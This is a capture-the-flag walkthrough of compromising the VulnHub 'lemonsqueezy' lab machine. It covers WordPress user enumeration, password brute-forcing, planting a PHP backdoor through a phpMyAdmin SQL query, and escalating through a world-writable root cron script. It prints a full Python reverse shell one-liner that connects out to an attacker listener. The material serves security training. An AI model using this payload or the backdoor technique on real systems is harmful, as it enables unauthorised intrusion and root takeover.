






# GETTING STARTED

To download **lemonsqueezy** click on the link given below

https://www.vulnhub.com/entry/lemonsqueezy-1,473/

> [!NOTE] 
> This writeup documents the steps that successfully led to pwnage of the machine. It does not include the dead-end steps encountered during the process (which were numerous). This is just my take on pwning the machine and you are welcome to choose a different path.


# RECONNAISSANCE

I performed an **nmap** aggressive scan on the target to find information about open ports and running services.

![[IMAGES/1.png]]

# INITIAL ACCESS

Since the target was running a web server, I accessed it using a browser and found a default landing page.

![[IMAGES/2.png]]

I performed a fuzz scan using **dirb** to find other files and directories on the server.

![[IMAGES/3.png]]

![[IMAGES/4.png]]

Hence, I found two interesting directories, **wordpress** and **phpmyadmin**.

I visited the *wordpress* page and, upon scrolling to the bottom, found a link that took me to a login page.

![[IMAGES/5.png]]

![[IMAGES/6.png]]

![[IMAGES/7.png]]

Hence, I used **wpscan** to find users on the WordPress website.

![[IMAGES/8.png]]

![[IMAGES/9.png]]

I found two users, so I tried logging in as them on the login panel using *password* as the password.

![[IMAGES/10.png]]

I received an error indicating that I had provided an incorrect password. So, I used **hydra** to find the correct password for the user.

![[IMAGES/11.png]]

Hence, I logged into the WordPress site using these credentials.

![[IMAGES/12.png]]

I looked around and found something interesting in the *Posts* tab.

![[IMAGES/13.png]]

This could be a password, so I tried using it on the *phpmyadmin* page.

![[IMAGES/14.png]]

![[IMAGES/15.png]]

Hence, I gained access to the page containing the database information. I inspected the *wordpress* database and found the *wp_users* table that contained the password hash of both the users.

![[IMAGES/16.png]]

Here, I replaced the hash of *lemon* with *orange* so that I could access that user's WordPress panel with a password that I knew.

![[IMAGES/17.png]]

I logged into the WordPress site as *lemon* and found some more tabs.

![[IMAGES/18.png]]

I tried to upload a **php** reverse shell at *Appearance --> Editor --> 404 template* but did not have enough permissions.

Hence, I went back to the *phpmyadmin* page and found a tab that allowed me to execute an **SQL** query.

![[IMAGES/19.png]]

I created a **php** backdoor using SQL by executing the following query


![[IMAGES/21.png]]

I visited the WordPress site and attempted to execute a command using this backdoor.



Since it worked, I attempted to get a reverse shell out of it.
- I visited **revshell.com** and copied an **nc** reverse shell payload.
- I started a **netcat** listener and pasted the payload into the browser.






Next, I spawned a tty shell using Python.


I looked around in the directories and found the user flag.


# PRIVILEGE ESCALATION

Now I moved into the */var/www/html/wordpress* directory and downloaded the **linux smart enumeration** script.




I then ran the script.


The script identified an interesting file that was executed by the crontab as root and had modification permissions for all users.


Hence, the next thing I did was navigate to the folder and view the file.


I then used the following **python** reverse shell payload.

```python

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

I added this payload into the file and started a **nc** listener.


I viewed the modified Python file.



Finally, I checked my listener and quickly got a reverse shell.


Now with root access, I captured the root flag from the */root* directory.



# CLOSURE

Here's a brief summary of how I compromised **lemonsqueezy** and captured both flags:
- I discovered 2 login panels, */wordpress/wp-login.php* and */phpmyadmin*, by fuzzing directories of the web server.
- Using **wpscan**, I identified available users.
- I found the password for *orange* and logged into the WordPress site using those credentials.
- I obtained the password for *orange*'s *phpmyadmin* page.
- Using this, I logged into *phpmyadmin* and created a backdoor using an **SQL** query.
- I leveraged the backdoor to establish a foothold and captured the user flag by navigating up a few directories.
- I discovered a file executed as root through **cron jobs** with modification permissions.
- I uploaded my own **Python** reverse shell code into it and obtained a reverse shell as **root**
- Finally, I captured the second flag from the */root* directory.


That concludes my writeup. Until next time!

---